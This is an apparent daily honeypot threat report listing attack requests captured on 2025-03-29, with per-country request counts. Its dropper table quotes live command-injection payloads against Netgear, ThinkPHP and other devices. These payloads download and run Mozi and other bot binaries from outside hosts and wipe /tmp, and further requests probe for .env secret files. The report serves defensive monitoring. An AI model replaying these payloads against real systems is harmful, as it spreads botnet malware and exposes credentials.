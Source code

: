 ```yaml
---
title: "Report: 2025-03-29 "
date: 2025-03-29
desciption: "Report: {today} "
tags: [repport, daily]
---
```


# Daily Report: 2025-03-29
Interaction report on http service of various honeypot around the world.
- [OT report simplified](#ot_simplified_report)
- [Botnet dropper behaviour](#botnet_dropper_behaviour)
- [List of request](#request)
- [List of country_iso_code](#country_iso_code)

## ot_simplified_report
Simplified report for medium-level interactions with honeypots that mimic industrial systems (web site loading, or interactions with the website), for more contact us on social@shoggoth.industries.
| source_country   | targeted_country   |
|:-----------------|:-------------------|
| CN               | Georgia            |
| MY               |                    |
| LV               |                    |

## botnet_dropper_behaviour
List of requests suspected of having stage 1 dropper behavior (programs designed to extract other files from their own code).
| remote_addr     | request                                                                                                                                                                                                                                              |
|:----------------|:-----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
| 42.227.166.156  | GET /setup.cgi?next_file=netgear.cfg&todo=syscmd&cmd=rm+-rf+/tmp/*;wget+http://42.227.166.156:52343/Mozi.m+-O+/tmp/netgear;sh+netgear&curpath=/&currentsetting.htm=1 HTTP/1.0                                                                        |
| 103.207.124.231 | GET /setup.cgi?next_file=netgear.cfg&todo=syscmd&cmd=rm+-rf+/tmp/*;wget+http://192.168.1.1:8088/Mozi.m+-O+/tmp/netgear;sh+netgear&curpath=/&currentsetting.htm=1 HTTP/1.0                                                                            |
| 178.72.78.8     | GET /shell?cd+/tmp;rm+-rf+*;wget+http://192.168.1.1:8088/Mozi.a;chmod+777+Mozi.a;/tmp/Mozi.a+jaws HTTP/1.1                                                                                                                                           |
| 120.85.117.186  | GET /setup.cgi?next_file=netgear.cfg&todo=syscmd&cmd=rm+-rf+/tmp/*;wget+http://192.168.1.1:8088/Mozi.m+-O+/tmp/netgear;sh+netgear&curpath=/&currentsetting.htm=1 HTTP/1.0                                                                            |
| 31.170.22.205   | GET /cgi-bin/live_api.cgi?page=satellite_list&id=&ip=$(cd+/tmp;wget+http://31.170.22.205/dl18;curl+-O+http://31.170.22.205/dl18;sh+dl18) HTTP/1.1                                                                                                    |
| 141.98.11.210   | POST /device.rsp?opt=sys&cmd=___S_O_S_T_R_E_A_MAX___&mdb=sos&mdc=cd%20%2Ftmp%3Brm%20-rf%20parm7%3B%20wget%20http%3A%2F%2F193.32.162.27%2Fbins%2Fparm7%3B%20chmod%20777%20parm7%3B%20.%2Fparm7%20sex HTTP/1.1                                         |
| 118.40.165.223  | GET /index.php?s=/index/\x09hink\x07pp/invokefunction&function=call_user_func_array&vars[0]=shell_exec&vars[1][]='wget http://185.225.75.8/bins/vcimanagement.x86 -O thonkphp ; chmod 777 thonkphp ; ./thonkphp ThinkPHP ; rm -rf thinkphp' HTTP/1.1 |
| 31.170.22.205   | GET /cgi-bin/live_api.cgi?page=satellite_list&id=&ip=$(cd+/var/tmp;wget+http://31.170.22.205/dl18;curl+-O+http://31.170.22.205/dl18;sh+dl18) HTTP/1.1                                                                                                |
| 180.153.27.22   | GET /index.php?s=/index/\x09hink\x07pp/invokefunction&function=call_user_func_array&vars[0]=shell_exec&vars[1][]= 'wget http://5.255.115.56/x86_64 -O /tmp/.phpdsds; chmod 777 /tmp/.phpdsds; /tmp/.phpdsds php.x86' HTTP/1.1                        |
| 58.242.106.187  | GET /index.php?s=/index/\x09hink\x07pp/invokefunction&function=call_user_func_array&vars[0]=shell_exec&vars[1][]= 'wget http://5.255.115.56/x86_64 -O /tmp/.phpdsds; chmod 777 /tmp/.phpdsds; /tmp/.phpdsds php.x86' HTTP/1.1                        |
| 182.84.138.116  | 27;wget%20http://%s:%d/Mozi.m%20-O%20->%20/tmp/Mozi.m;chmod%20777%20/tmp/Mozi.m;/tmp/Mozi.m%20dlink.mips%27$ HTTP/1.0                                                                                                                                |
| 88.247.162.58   | GET /index.php?s=/index/\x09hink\x07pp/invokefunction&function=call_user_func_array&vars[0]=shell_exec&vars[1][]= 'rm -rf bejv86; wget http://176.65.134.201/bejv86 -O /tmp/.Aqua; chmod 777 /tmp/.Aqua; /tmp/.Aqua thinkphp.selfrep' HTTP/1.1       |
| 185.233.117.25  | GET /index.php?s=/index/\x09hink\x07pp/invokefunction&function=call_user_func_array&vars[0]=shell_exec&vars[1][]='wget http://152.42.234.215/bns/x86 -O thonkphp ; chmod 777 thonkphp ; ./thonkphp ThinkPHP ; rm -rf thinkphp' HTTP/1.1              |

## request

List of requests of the day that have never been detected, other requests that have already been detected and archived in the [request database.](https://blog.shoggoth.industries/database/request_database/).

|     |   number_of_occurence | request                                                                           |
|----:|----------------------:|:----------------------------------------------------------------------------------|
| 225 |                     4 | GET /dependencies/.env HTTP/1.1                                                   |
| 239 |                     3 | CONNECT pro.ip-api.com:443 HTTP/1.1                                               |
| 240 |                     3 | \x04\x01\x01\xBB\x00\x00\x00\x01proxychecker\x00pro.ip-api.com\x00                |
| 267 |                     2 | GET /robots/.env HTTP/1.1                                                         |
| 270 |                     2 | GET /~admin/.env HTTP/1.1                                                         |
| 292 |                     2 | GET /upload/.env HTTP/1.1                                                         |
| 294 |                     2 | GET /html/.env HTTP/1.1                                                           |
| 295 |                     2 | GET /v1 HTTP/1.1                                                                  |
| 353 |                     1 | GET /Laravel/.env HTTP/1.1                                                        |
| 357 |                     1 | GET /.config.yaml HTTP/1.1                                                        |
| 359 |                     1 | GET /data/.env HTTP/1.1                                                           |
| 361 |                     1 | GET /inc/.env HTTP/1.1                                                            |
| 362 |                     1 | GET /misc/.env HTTP/1.1                                                           |
| 369 |                     1 | \x04\x01\x01\xBB@\xE9\xA2\x93adm:12345\x00                                        |
| 383 |                     1 | GET /Api/.env HTTP/1.1                                                            |
| 384 |                     1 | GET /doc/.env HTTP/1.1                                                            |
| 400 |                     1 | \x04\x01\x01\xBB@\xE9\xA2i\x00                                                    |
| 595 |                     1 | GET /VERM/VERM_AJAX_functions.php?function=log_custom_report&TPFME=BK0NI HTTP/1.1 |
| 596 |                     1 | GET /VERM/VERM_AJAX_functions.php?function=log_custom_report&J6EHU=ORME4 HTTP/1.1 |
| 597 |                     1 | GET /VERM/VERM_AJAX_functions.php?function=log_custom_report&WAL7Z=NBHQW HTTP/1.1 |
| 598 |                     1 | GET /VERM/VERM_AJAX_functions.php?function=log_custom_report&UM446=FADMG HTTP/1.1 |
| 599 |                     1 | GET /VERM/VERM_AJAX_functions.php?function=log_custom_report&6K4U8=807YZ HTTP/1.1 |
| 629 |                     1 | GET /vicidial/welcome.php HTTP/1.1                                                |
| 665 |                     1 | GET /VERM/VERM_AJAX_functions.php?function=log_custom_report&5XVSK=28GHM HTTP/1.1 |

## country_iso_code

List of country names and number of requests received by IPs located in these countries.
|    |   number_of_occurence | country_iso_code   |
|---:|----------------------:|:-------------------|
|  0 |                  1035 | NL                 |
|  1 |                   395 | US                 |
|  2 |                   382 | BG                 |
|  3 |                   323 | GB                 |
|  4 |                   174 | CN                 |
|  5 |                   168 | MY                 |
|  6 |                   104 | SC                 |
|  7 |                    83 | HK                 |
|  8 |                    65 | PL                 |
|  9 |                    63 | IN                 |
| 10 |                    55 | CH                 |
| 11 |                    53 | KR                 |
| 12 |                    52 | BE                 |
| 13 |                    51 | SG                 |
| 14 |                    47 | VN                 |
| 15 |                    25 | LV                 |
| 16 |                    21 | UA                 |
| 17 |                    20 | DE                 |
| 18 |                    20 | LT                 |
| 19 |                    13 | RO                 |
| 20 |                    12 | FR                 |
| 21 |                    11 | PT                 |
| 22 |                    11 | NG                 |
| 23 |                    11 | GH                 |
| 24 |                     9 | CA                 |
| 25 |                     8 | JP                 |
| 26 |                     6 | BR                 |
| 27 |                     6 | ID                 |
| 28 |                     6 | IR                 |
| 29 |                     5 | TR                 |
| 30 |                     4 | RU                 |
| 31 |                     2 | CZ                 |
| 32 |                     2 | AZ                 |
| 33 |                     2 | AO                 |
| 34 |                     2 | ZA                 |
| 35 |                     1 | MC                 |
| 36 |                     1 | BD                 |
| 37 |                     1 | AR                 |
| 38 |                     1 | ES                 |
| 39 |                     1 | TH                 |
| 40 |                     1 | RW                 |
| 41 |                     1 | GE                 |
| 42 |                     1 | IT                 |
| 43 |                     1 | AE                 |
